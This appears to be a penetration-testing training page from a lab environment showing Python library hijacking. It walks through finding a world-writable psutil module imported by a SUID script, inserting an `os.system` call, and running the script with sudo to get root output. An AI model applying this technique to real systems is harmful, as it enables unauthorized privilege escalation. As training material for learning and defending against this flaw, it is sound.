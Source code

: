 # Python Library Hijacking

there are three basic vulnerabilities where hijacking can be used:

1. Wrong write permissions
2. Library Path
3. PYTHONPATH environment variabale

### Wrong Write Permissions

One or another python module may have write permissions set for all users by mistake. This allows the python module to be edited and manipulated so that we can insert commands or functions that will produce the results we want. **If `SUID`/`SGID` permissions have been assigned to the Python script that imports this module, our code will automatically be included.**

If we look at the set permissions of the `mem_stats.py` script, we can see that it has a `SUID` set.

**Python Script**

```shell-session
htb-student@lpenix:~$ ls -l mem_stats.py

-rwsrwxr-x 1 root mrb3n 188 Dec 13 20:13 mem_stats.py
```

So we can execute this script with the privileges of another user, in our case, as `root`. We also have permission to view the script and read its contents.

**Python Script - Contents**

Code: python

{% code lineNumbers="true" %}
```python
#!/usr/bin/env python3
import psutil

available_memory = psutil.virtual_memory().available * 100 / psutil.virtual_memory().total

print(f"Available memory: {round(available_memory, 2)}%")
```
{% endcode %}

This script shows the available virtual memory in percent. We can also see in the second line that this script imports the module `psutil` and uses the function `virtual_memory()`.

So we can look for this function in the folder of `psutil` and check if this module has write permissions for us.

**Module Permissions**

```shell-session
htb-student@lpenix:~$ grep -r "def virtual_memory" /usr/local/lib/python3.8/dist-packages/psutil/*

/usr/local/lib/python3.8/dist-packages/psutil/__init__.py:def virtual_memory():
/usr/local/lib/python3.8/dist-packages/psutil/_psaix.py:def virtual_memory():
/usr/local/lib/python3.8/dist-packages/psutil/_psbsd.py:def virtual_memory():
/usr/local/lib/python3.8/dist-packages/psutil/_pslinux.py:def virtual_memory():
/usr/local/lib/python3.8/dist-packages/psutil/_psosx.py:def virtual_memory():
/usr/local/lib/python3.8/dist-packages/psutil/_pssunos.py:def virtual_memory():
/usr/local/lib/python3.8/dist-packages/psutil/_pswindows.py:def virtual_memory():


htb-student@lpenix:~$ ls -l /usr/local/lib/python3.8/dist-packages/psutil/__init__.py

-rw-r--rw- 1 root staff 87339 Dec 13 20:07 /usr/local/lib/python3.8/dist-packages/psutil/__init__.py
```

Such permissions are most common in developer environments where many developers work on different scripts and may require higher privileges.

**Module Contents**

```python
...SNIP...

def virtual_memory():

	...SNIP...
	
    global _TOTAL_PHYMEM
    ret = _psplatform.virtual_memory()
    # cached for later use in Process.memory_percent()
    _TOTAL_PHYMEM = ret.total
    return ret

...SNIP...
```

It is recommended to put our code right at the beginning of the function. We can import the module `os` for testing purposes, which allows us to execute system commands. With this, we can insert the command `id` and check during the execution of the script if the inserted code is executed.

**Module Contents - Hijacking**

```python
...SNIP...

def virtual_memory():

	...SNIP...
	#### Hijacking
	import os
	os.system('id')
	

    global _TOTAL_PHYMEM
    ret = _psplatform.virtual_memory()
    # cached for later use in Process.memory_percent()
    _TOTAL_PHYMEM = ret.total
    return ret

...SNIP...
```

Now we can run the script with `sudo` and check if we get the desired result.

**Privilege Escalation**

```shell-session
htb-student@lpenix:~$ sudo /usr/bin/python3 ./mem_status.py

uid=0(root) gid=0(root) groups=0(root)
uid=0(root) gid=0(root) groups=0(root)
Available memory: 79.22%
```

